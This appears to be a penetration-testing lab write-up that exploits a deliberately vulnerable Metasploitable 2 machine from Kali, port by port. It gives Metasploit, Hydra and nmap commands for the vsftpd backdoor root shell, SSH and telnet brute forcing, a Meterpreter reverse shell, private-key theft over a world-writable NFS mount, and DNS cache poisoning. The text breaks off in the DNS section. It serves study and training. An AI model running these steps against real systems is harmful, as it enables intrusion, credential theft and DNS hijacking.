





# Server Side Attacks: 
These are the type of attacks which is used to gained unauthorized acess to the system by exploiting the vulnerabilites or misconfiguration of the Software, OS and the services running on the target machine. 

These attacks do not require any user/client interaction as it mainly focus on vulnerabilites present in the target system. For these type of attacks the target should have on the same network or may have a public ip like servers i.e the target should be reachable from the target machine(Not hidden behind the routers). If the target is not reachable then these type of attacks are failed, For that case try using **client side attacks**.

## Server Side Attacks includes:
**Target Misconfigurations and Existing Vulnerabilities**: Poor configurations (e.g., weak passwords, default settings) and not up to date software/services (e.g Exisiting vulnerabities and backdoors) making it easier for attackers to compromise the system by bruteforcing or using existing exploits.

  **Injection Flaws** (e.g., SQL Injection): In this, Attacker sends malicious code to interact with a database, leading to data theft or manipulation.
  
  **Remote Code Execution** (e.g Service containg a backdoor ): Exploiting these flaws allows the attacker to execute system command remotely.
  
  **Insecure File Upload**: Uploading malicious files that execute code or provide a foothold on the target server/machine.
  
  

---
# Exploiting the Various Vulerabilities of **Metasploitable 2** Machine :

Metasploitable 2 is a deliberately vulnerable virtual machine used for practicing penetration testing techniques. In this project I will demonstrate how to exploit the various vulnerabilities of the Metasploitable 2 Machine using my Kali Linux Machine. So lets get started...

## Tools Used :
### 1. **Nmap** (Network Mapper) -> A powerful network Scannning tool along with nse(nmap scripting engine support)
Nmap is an open-source tool used for network discovery and security auditing. It is widely used to **scan and map networks**, **identify open ports**, **services running on different port**, **Operating system detection** and **discover vulnerabilities**.

The main problem with this tools is that it is **quite noisy** i.e It can easily detected by the IDS and IPS software and by setting certain rules they can block the nmap scan. But by using different scanning techinques like **Inverse tcp flag Scanning**,**Decoys** and Specifing **Timing Templates** etc can bypass the IDS and IPS rules.

***Some key features include***:
1. **Port Scanning**: Identifies open and closed ports on a network or particular machine.
2. **Service Version Detection**: Determines the version of services running on open ports(like, FTP, SSH).
3. **OS Detection**: Detects the operating system of the target machine.
4. **Scripting Engine**: Nmap also contains the **NSE** nmap scripting Engine that is used to Automates tasks using scripts, such as vulnerability detection, bruteforcing etc. The nmap scripts are present in the /usr/share/nmap/scripts/ directory.
##### Nmap is very essential tool for reconnaissance(mainly active scanning) in penetration testing.
---
  
### 2. **Metasploit Framework** -> An attacking framework for various vulnerability.
Metasploit is an open-source penetration testing platform that allows us to **find**,**assist** **exploit**, and **validate** different type of vulnerabilities. It contains a vast database of **exploits**, **payloads**, **encoders** and **auxilaries** for different platforms and services. ***Key features include***:

1. **Exploits Database**: A wide collection of exploits for different software vulnerabilities.
2. **Payloads**: A small piece of code that gets executed on the target once the vulnerability is exploited.
3. **Post-Exploitation**: Allows further actions like privilege escalation and data extraction after compromising a system.
4. **Auxiliary Module**: Tools for auxiliary functions like scanning, fingerprinting ,fuzzing, or DoS attacks.

 ##### Metasploit helps streamline the exploitation process, making it a go-to tool for vulnerability assessments and Exploitation.

 ---
 ### 3. Hydra -> A password cracking tool
 Hydra is a fast, versatile password-cracking tool used primarily for brute-force attacks on network services. Developed to support a wide range of protocols, Hydra can target services like SSH, FTP, HTTP, SMB, MySQL, RDP, and many others.

**Key features of Hydra include:**
1. **Protocol Support:** Hydra supports over 50 protocols, making it useful across various network services and applications.
2. **Parallelized Attacks:** Hydra can run multiple login attempts in parallel, significantly increasing its speed and efficiency.
3. **Customizable:** Users can specify custom wordlists for usernames and passwords.
4. **Modular Design:** Hydra’s modular structure allows the addition of new protocols, extending its flexibility and usability.

 ---
 ### 4. Openvas -> An open-source vulnerability scanning tool
 OpenVAS (Open Vulnerability Assessment System) is an open-source framework(which is free to use) for comprehensive **vulnerability scanning** and management. It’s widely used for identifying security weaknesses across networks, systems, and applications. OpenVAS is a component of the Greenbone Vulnerability Manager (GVM), which provides additional management features.

**Key features of OpenVAS include:**

1. **Vulnerability Scanning:** OpenVAS performs detailed vulnerability assessments on target systems, identifying misconfigurations, outdated software, and known vulnerabilities along with their severity rating.
2. **Large Vulnerability Database:** It relies on a continuously updated feed of vulnerability definitions, allowing it to detect a wide range of issues across various software and platforms.
3. **Customizable Scans:** Users can adjust scan settings and schedules, define targets, and create specific scan policies.
4. **Reporting and Management:** OpenVAS generates detailed reports on detected vulnerabilities and provides options for prioritization and remediation guidance.

---
 ### 5. John the ripper -> A password and hash-cracking tool.
 John the Ripper is a powerful, open-source password-cracking tool commonly used for recovering lost passwords or testing password strength and cracking password from their hashes. Initially designed to crack Unix-based passwords, it now supports various operating systems and password hashes, including Windows NTLM, MD5, and SHA.
 
**Key Features of John the Ripper**

1. **Numerous Hash Support:** John the Ripper can handle numerous password hash types, allowing it to target a wide array of systems and applications and almost all hash-encoding alogrithm like md4, md5, ntlm.
2. **Hybrid Attack Modes:** It combines dictionary attacks with brute-force and rule-based attacks, providing multiple strategies for effective password recovery.
3. **Speed and Optimization:** John’s algorithms are highly optimized, making it faster than many alternatives, especially on multicore systems.
4. **Extensibility:** John supports plugins and customizable rules, enabling it to adapt to different password-cracking requirements.

---
 ### 6. Hashid and Hash-identifier
 Hashid and Hash-identifier are the hashing encoding identifying tools. We can use these tools to identify which hashing alogrithm is used in particular hash value which is very beneficial and used in Hash-cracking tool like john the ripper.

 ---
# Step 1 Enummeration or Reconnasissance

This is the first step in the penetration testing also known as Information Gathering step. In this step Gather as much information as you can about the target. It includes finding ip addresses, public information about the target, Target OS, various services running on target, open port, its domain and subdomain etc. This phase is very crucial to further carry out in both server side and client side attack.
It was categorised in two categories:

**1. Passive Scanning**: In passive scanning we gather information about the target that is publically available i.e without directly interacting with the target like the target domain, its subdomain, technology stack etc.

**2. Active Scanning**: In Active scanning we gather information by direclty interacting with the target using tools like nmap to scan for open ports, its running services and its versions etc.

## Lets start by Gathering information about our target Metasploitable 2:
**As we Know that the target is our local machine in our virtual homelab environment So there is not much public information available about our target. So we skip the passive reconn step and move to the Active Scanning**

**Step I** Now first as we know that the target machine is inside our homelab network but we don't know the ip address of the target.So firstly start with a Hostscan with nmap over entire network to get the ip address of our target Metasploitable 
```
nmap -sn 192.168.1.100/24
```
Output:

As from the above result we get that our network has 
192.168.1.100 -> opnsense firewall address

192.168.1.101 -> kali machine

then there is **192.168.1.103** -> which is our metasploitable machine

**Step II** Verrfy that Our target is reachable 
From our Attacker kali machine try to ping our metasploitable machine
```
ping 192.168.1.103
```
**Step III** As the Host is up and reachable, let do an nmap scan to identify the open ports and its running service along with version detection.
```
nmap -Pn -sV -v 192.168.1.103
```
Pn -> for Directly perform Port scanning as we already verify the host is up and running.

sV -> For service detection along with its version.

v  -> For verbose i.e detail about each step.
**Output**:


---
# Step 2 Identifying Vulnerabilites and Exploit them
**(I combined the vulnerability scanning and exploitation phase together)**

In this phase different running services are analyzed against the common vulnerabilites scanning scripts and try to exploit them using diffent exploits and payloads available in the metasploit framework. Generally we start check for vulnerabilities for common port like 80, 512 etc. but as I targeted our own vulnerable machine lets start for each port one by one.

## 1.Service running on port 21:ftp-> Vsftpd 2.3.4
As from the nmap scan we got that an ftp service is running on port 21 along with its version -> vsftpd 2.3.4.

Vsftpd(very secure file transfer protocol deamon) is a ftp service used to share files and resources more securely with the server. 

### Identifying Vulnerabilities or Weakness:
Now lets check for any vulnerability present in this service using the nmap scripts.
```
cd /usr/share/nmap/scripts
#Search for ftp related scripts
ls -al | grep "ftp"
#check for anonymous login allowed or not
nmap -p 21 --script ftp-anon.nse 192.168.1.103
#check for the common backdoor present in vsftp or not
nmap -p 21 --script ftp-vsftpd-backdoor.nse 192.168.1.103
```
**Output**


From here we got that there are 2 main vulnerability present in the **vsftpd-2.3.4**:

**1. Anonymous login allowed without password** The ftp service is misconfigured to allowing login using `anonymous` user without any password. An attacker my connect to this service using `anonymous` using ftp client.

**2. A Backdoor Command Execution Vulenability.** This particular version of **vsftpd 2.3.4** ftp services is having a backdoor shell. Vsftpd is prone to a backdoor vulnerability because the 'vsftpd-2.3.4.tar.gz' source package file contains a backdoor. An attacker can cause the application to open a backdoor on port 6200 by logging to the FTP server with the username ':)'. It has a malicious vsf_sysutil_extra(); function by sending a sequence of specific bytes on port 21, which, on successful execution, results in opening the backdoor on port 6200 of the system.


### Exploitation :

**1. Exploiting Anonymous login allowed vulnerability**: This vulnerability allowed to login as anonymous without providing the password to the ftp server of the metasploitable machine.

  For this we just need to have a ftp client that need to connect to the ftp server, you can use the linux **inbuild ftp client** or **filezila**. 
  
  **Using Filezila**:
  
 Open Filezila and put the **host= Metasploitable ip i.e 192.168.1.103** & **username= anonymous** & **password= (left blank)** and Start a quick scan and you get connected to the vsftpd server.
  
  
  **Using linux ftp-client**:Enter the terminal and run ftp-client by:
  ```
ftp 192.168.1.103
username=anonymous
password=
```
 We simply got connected to the ftp server.


**Now we have successfully gained access to the ftp server of our target which has misconfigured ftp service. But with the ftp connection we can't perform that much shell operation as its for limited scope uses. We don't gained any sensitive file or data using this access and hence move forward and try another vulnerability**.

**2. Exploiting Backdoor commmand Execution Vulnerability**: This version of vsftp-2.3.4 has a inbuild backdoor present in its source code which allows as to execute full system command once we got successfully connected to that backdoor.

1. Firstly search for the exploit available for this vulnerability, by searching **vsftpd-2.3.4 exploit** on google or any search engine.
2. From that we got to know that there is metasploit exploit module that can be used to connect to this backdoor.
3. Now exploit this vulnerability using metasploit vsftp exploit as:

`Searching for exploit in the exploit module`
```
searchsploit vsftpd
```
```
#Run the metasploit framework cli using cmd
msfconsole
#search vsftpd backdoor command execution exploit
msf > search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
#check for frequired options
msf exploit(unix/ftp/vsftpd_234_backdoor) > show options
#Set field according to our target
msf exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 192.168.1.103
msf exploit(unix/ftp/vsftpd_234_backdoor) > set RPORT 21
#Run the exploit
msf exploit(unix/ftp/vsftpd_234_backdoor) > exploit
```


**After running this exploit, a `root shell`(very well) session is estabilise with the target machine and you execute any linux command on the target machine.**

---
### Service running on Port 22: ssh service(secure shell) Openssh-4.7p1

The SSH (Secure Shell) service is commonly used for remote access and administration. When SSH is running, it enables you to connect securely to that remote server(which has running the ssh-server) over an encrypted channel, which is essential for tasks like remote command execution, file transfers, or tunneling other network protocols.
### Identifying Vulnerabilites or Weakness
**Running nmap scrips**
 ```
cd /usr/share/nmap/scripts
ls -al | grep ssh
#Check for ssh authentication methods
nmap -p 22 --scripts ssh-auth-methods.nse 192.168.1.103
#check for algorithm used
nmap -p 22 --scripts ssh2-enum-algo.nse 192.168.1.103
```
**Output**


From this output we get that the target machine uses both password and private key based authentication. Also we get info about the algorithm used by the ssh-server like rsa,dss which are quite weak and outdated encryption algorithms. But We can conclude a direct vulnerability from here. Now search for vulnerability in this ssh version(Openssh-4.7p1) on internet, search openssh-4.7 exploit, here we found that it has a 
1. **user code execution vulnerability** which allow us to execute command on the remote server after getting an ssh connection with the target server and its corresponding exploit is present in the metasploit exploit db module.

2. **Bruteforcing the ssh username and password for default crudential** As the ssh service allows password based authentication along with key-based, So we can bruteforce the service to find if it uses the default crudentials.

### Exploitation:
As we don't have the direct connection to this ssh service, So to exploit/attack this ssh service i.e to get the ssh connection to the target we have two methods:

1. **Bruteforcing the ssh with username and passwords.**
2. **Using key based authentication.**

#### 1. Bruteforcing the ssh with username and passwords**:
**--> Using metasploit module /auxiliary/scanner/ssh/ssh_login** 
 As we know the target ssh services allows password based authentication. So we can bruteforce the login attemps using a wordlist. For this we have an auxiliary module in the metasploit framework. Let start the attack
 ```
#Start the metasploit cli
msfconsole
#search for the auxiliary module
msf > search ssh_login
msf auxiliary(scanner/ssh/ssh_login) > use auxiliary/scanner/ssh/ssh_login
#check for the fields
msf auxiliary(scanner/ssh/ssh_login) > show options
set RHOST 192.168.1.103
#setting the userpass custom wordlist of metasploit
msf auxiliary(scanner/ssh/ssh_login) > set USERPASS_FILE /usr/share/metasploit-framework/data/wordlist/userpass.txt
msf auxiliary(scanner/ssh/ssh_login) > set STOP_ON_SUCESS true
msf auxiliary(scanner/ssh/ssh_login) > set USER_AS_PASSWORD true
msf auxiliary(scanner/ssh/ssh_login) > set VERBOSE true
msf auxiliary(scanner/ssh/ssh_login) > exploit
```
Now this module will brute force the ssh login with the wordlist and if there is a match we get the username and password for that ssh server. We get them easily, if it has default crudential or weak password. If this doesn't get the result parameter create your custom wordlist as per you target info and use them.


In my case I am using metasploitable with default login crudential, that why get the result as **username= msfadmin** and **password= msfadmin**.

From here, one way is we have ssh-crudentials and using them we can connect to the target via any ssh-client but using this we had to manually perform command for each task injecting payload and other post exploitation stuff. So automate the command execution task and integrate the ssh connection with metasploit framework we are using the **sshexec** module `(which can exploit the User code execution vulnerability also)` of metasploit framework for connecting via ssh. It makes running **custom payloads**, **privilege escalation**, and **post-exploitation** tasks easier and more efficient.

```
msfconsole
msf > search multi/ssh/sshexec
msf > use exploit/multi/ssh/sshexec
msf exploit(multi/ssh/sshexec) > options
#set the payload options to a 32-bit payload as our target metasploitable is 32-bit vm
msf exploit(multi/ssh/sshexec) > set payload linux/x86/meterpreter/reverse_tcp
msf exploit(multi/ssh/sshexec) > show targets
#set the target to x86(as this payload is compatible to 32-bit target)
msf exploit(multi/ssh/sshexec) > set target 1
#set the target ip, username and password we get from bruteforcing
msf exploit(multi/ssh/sshexec) > set RHOSTS 192.168.1.103
msf exploit(multi/ssh/sshexec) > set USERNAME msfadmin
msf exploit(multi/ssh/sshexec) > set PASSWORD msfadmin
#verify the options field
msf exploit(multi/ssh/sshexec) > show options
#run the exploit
msf exploit(multi/ssh/sshexec) > exploit
```


Now here we get a meterpreter shell to the target machine and using this we can execute commands, and all other stuffs like persistent connection, and other post-exploitation things.
#### 2. Private ssh-Key based Authentication**:
In this attack we are going to Sniff the target private key and try to gain access using them. 

**Note- With that private key we are not only able to access the target machine, but also we can access all the remote server that has trust the to target key.**

**(Note that we could also plant your own ssh public keys on the target, by adding them into the target machine's .ssh/authorized_keys file, but this technique would allow you to only access the target metasploitable machine, while the above method provide access to not only the metasploitabe machine but also the remote machine/server which trust the target private key.)**

##### Obtaining target Private keys:
For this attack to carry on and to get the private key of target, **We need to have access to the target file system along with read and write permissions**. In this case, our metasploitable machine is configure to provide **NFS(network file system) server on port 2096** that allows any devices in the network can mount the **'/' file system** of metasploitable machien along with **read and write permission** which is a very bad configuration. So by using NFS we can mount metasploitable '/' directory to our attacker machines. Here we go:
```
#for this we have the nfs-client and rpcbind service package should be insalled
#Check for what filesystem is mountable
showmount -e 192.168.1.103
#Start the rpcbind services
service rpcbind start
#choose a directory where to mount the target filesystem, I choose a new target directory in the tmp folder
mkdir /tmp/target
mount -t nfs 192.168.1.103:/ /tmp/target
#copy the target public key to its authorized_keys
cat /tmp/target/home/msfadmin/.ssh/id_rsa.pub >> /tmp/target/home/msfadmin/.ssh/authorized_keys
#we can also plant our own public key to target authorized_keys ***(alternate)***
#cp /home/kali/.ssh/id_rsa.pub /tmp/target/home/msfadmin/.ssh/autherized_keys/
#Sniff the target private key as target_id_rsa
cp /tmp/target/home/msfadmin/.ssh/id_rsa /home/kali/target_rsa_idd
#Unmount the file system
umount /tmp/target

```


Now we have placed target machine's public key into its authorized keys of the target and sniffed its private key. We can simply connect to the target using ssh-client with the target private key, but here I am using ssh_login_pubkey auxiliary of the metasploit frameowork because it automate the task of authentication if we have **multiple private keys** and didn't know which key is used to authenticate with the target, or we have **multiple targets** or we have **multiple users and key pair**, In that case we use this modules to automatically trying to authenticate with username and keys-pairs instead of manually checking.
```
# Check for the current user have permission with sniffed private key file, if not 
sudo chown kali target_rsa_idd
sudo chmod 600 target_rsa_idd
```

```
msfconsole
msf> search ssh_login_pubkey
msf> use auxiliary/scanner/ssh/ssh_login_pubkey
#setting the required field 
msf  auxiliary(ssh_login_pubkey) > options
msf  auxiliary(ssh_login_pubkey) > set RHOSTS 192.168.1.103
#Must ensure that that the key file has right(read,write) permission to current user
msf  auxiliary(ssh_login_pubkey) > set KEY_FILE /home/kali/target_id_rsa
msf auxiliary(ssh_login_pubkey) > set USERNAME msfadmin
msf auxiliary(ssh_login_pubkey) > exploit

```

 
 
 
 
 

Here again I got the remote shell to the target system as an `msfadmin` user and now we can perform post-exploitation things to increase your privilage and other things..

### Post-Exploitation things
Here the msfadmin has already have in the sudo group, So we can simply escalate our privilage using the msfadmin password.
On the remote shell execute-
```
sudo su
password: msfadmin
```
Hence we got the remote root shell on the target and now we can perform anthing on the target form stealing sensitive data and file like /etc/passwd and other post-exploitation things like persistant connection for future etc...

---

### Service on Port 23: telnetd service
Since telnet(teletype network protocol) is also a remote access protocol like ssh, i.e using telnet we can access and share the server and its resources remotely. It operates on TCP/IP protocol. But telnet does not implement any encryption of data while sharing of data and resources. So it vulerable to MITM and eavesdroping attacks and nowdays it is replaced by more secure protocol like ssh.


### Identifying Vulnerabilites or Weakness
 1. The main vulnerability or we can say weakness in the telnet protocol was it is prone to **MITM and eavesdroping attack**(i.e if the attacker is able to interfare the communication(estabilise itself as MITM) , it can direcly sees what is being shared/exchanged because there is no encryption. But I am not going to exploit it with MITM.
 ```
cd /usr/share/nmap/scripts
ls -al | grep telnet
#Check for telnet encryption methods
nmap -p 23 --scripts telnet_encryption.nse 192.168.1.103
```
 
As by running NSE script we got that the telnet is not using any encryption
 
2. **Bruteforce attack for default crudentials** As it is a remote access protocol, it uses `user-password` based authentication to establise a connection with the server like the ssh protocol. So we can do **bruteforce to get the username and password** to authenticate with the target if it uses the default or weak crudentials.

 ### Exploitation
In order to exploit the telnet service we are **Using bruteforce method** to get the username and password to authenticate with the target.
### Bruteforcing the telnet service using metasploit
```
msfconsole
msf > search telnet_login
msf > use /auxiliary/scanner/telnet/telnet_login
msf auxiliary(scanner/telnet/telnet_login) > options
msf auxiliary(scanner/telnet/telnet_login) > set RHOSTS 192.168.1.103
msf auxiliary(scanner/telnet/telnet_login) > set PASS_FILE /home/kali/test_bruteforce.txt
msf auxiliary(scanner/telnet/telnet_login) > set USER_FILE /home/kali/test_bruteforce.txt
msf auxiliary(scanner/telnet/telnet_login) > set STOP_ON_SUCCESS true
msf auxiliary(scanner/telnet/telnet_login) > set VERBOSE true
msf auxiliary(scanner/telnet/telnet_login) > exploit
```
Output:


Now we get the username and password by bruteforcing with the `username=msfadmin` and `password=msfadmin`, as I am using the default crudentials. Also the auxiliary estabilise a session with the target where we can execute system command on the target machine as msfadmin user.

We can also use tools like hydra which more fater and efficient for larger wordlists

**Bruteforcing using hydra**
```
hydra -L /usr/share/seclist/Usernames/usernames.txt -P /usr/share/seclist/Password/Leaked-Databases/rockyou.txt -e nsr -s 23 192.168.1.103 telnet
```
As again, we got the username and password similar to using metasploit.

---
## Exploiting Service on Port 25: Postfix Smtpd service
Simple Mail Transfer Protocol (SMTP) is the standard protocol for sending emails across the internet. It operates on port 25 by default (and optionally on port 587 or 465 for secure transmission) and uses a client-server model. SMTP is responsible for transferring email messages from an any email client (outlook,gmail,apple-mail etc) to the reciever Mail server. Nowdays it is encrypted using SSL/TLS to protoct the email-data called as smtps.


### Identifying Vulnerabilites or Weakness
Using nmap scripts-
 ```
cd /usr/share/nmap/scripts
ls -al | grep smtp
#Check for vulnerabilities by running all scripts
nmap -p 25 --scripts "smtp-*" 192.168.1.103
```


By running various NSE script we can't find a well known vulnerability in this smtp protocol.
1. **User Enumeration Vulerability** By futher searching we find that we had a enummeration module in the metasploit framework which **identifies the user's** in the smtpd service by bruteforcing request with a wordlist.

### Exploitation
We can't find a well known vulnerability in the smtpd service to exploit but there is flaw that allow as to enumerate the smtp user's using the smtpd service on the target machine.
```
msfconsole
msf > search smtp_enum
msf > use auxiliary/scanner/smtp/smtp_enum
msf auxiliary(scanner/smtp/smtp_enum) > options
msf auxiliary(scanner/smtp/smtp_enum) > set RHOSTS 192.168.1.103
msf auxiliary(scanner/smtp/smtp_enum) > exploit
```
output:



From the output we can conclude that we have identified different user on the target that are using smtpd service. We can perform further attack on this service but we can use these crudential we got to used on combination with other attacks and services.

---

## Service running on Port 53: Domain-> ISC BIND 9.4.2

ISC BIND is the most commonly used domain services in the linux based system. It mainly used to resolve the domain name into the ip address, so that we can access that website/server over the internet.

### Identifying Vulnerabilites or Weakness
Here we I am using vulners script to search for vulnerability in the ISC bind service. I find quiet lots of vulnerabilities correspond to this services but most of them are DOS(Denial of Service) and DNS spoofing attack. 

I also search on google, vulners.com and CVE details to verify these vulerabilities(always prefered). Through My reasearch of exploiting the vulnerabilites on domain service, I found the two main vulnerability that I can exploit is-

1. **DNS Cache Poisoning/DNS Hijacking vulnerability** **CVE-2008-4194/1447** In this vulnerability, we can send dns responses(poisoning) to the target in order to cache the false dns entry for a specific domain in the target dns server, So that when the target visit that particular domain it would redirected to our spoofed domain.
2. **Buffer-Overflow vulnerability** **CVE-2021-25216**
3. **DoS(Denial of Service) attack by crashing the Named service** **CVE-2009-0696** The vulnerability allows an attacker to cause a denial of service (DoS) by sending crafted dynamic update messages to BIND’s named daemon, causing it to crash. In the isc bind service, have a vulnerability in how it process TKEY queries. The vulnerability can be triggered remotely, and by sending a single malformed TKEY request can cause a denial of service (DoS) by crashing the **named** service, which handles DNS queries.

The TKEY record (type="TKEY") is used for transaction key management in DNSSEC. BIND 9.4.2 has certain flaws that, incorrectly handles certain TKEY requests, allowing an attacker to craft a request that crashes the service.

### Exploitation
##### 1.Exploitation the DNS cache poisoning vulnerability
For this, on a little search on google I found two metasploit module which can perform the dns poisoning attack for a specific domain/host.
**auxiliary/spoof/dns/bailiwicked_domain**

**auxiliary/spoof/dns/bailiwicked_host**
```
sudo msfconsole
msf > search spoof/dns
msf > use auxiliary/spoof/dns/bailiwicked_domain
msf auxiliary(spoof/dns/bailiwicked_domain) > set RHOSTS 192.168.1.103
#recons is important as it queries to get the dns info about the target domain and helps the dns spoof response appear legitimate to mimicking the real dns-data, so it is set to an open external dns server.
msf auxiliary(spoof/dns/bailiwicked_domain) > set RECONS 199.43.133.53
#The host to which the domain is spoofed with( I am using my attacker machine server)
msf auxiliary(spoof/dns/bailiwicked_domain) > set NEWDNS 192.168.1.101
#Domian which we want to spoof
msf auxiliary(spoof/dns/bailiwicked_domain) > set DOMAIN example.com
#if you don't know the target's response port set it to 0 to check for all ports
msf auxiliary(spoof/dns/bailiwicked_domain) > set SRCPORT 0
msf auxiliary(spoof/dns/bailiwicked_domain) > set SRCADDR Real
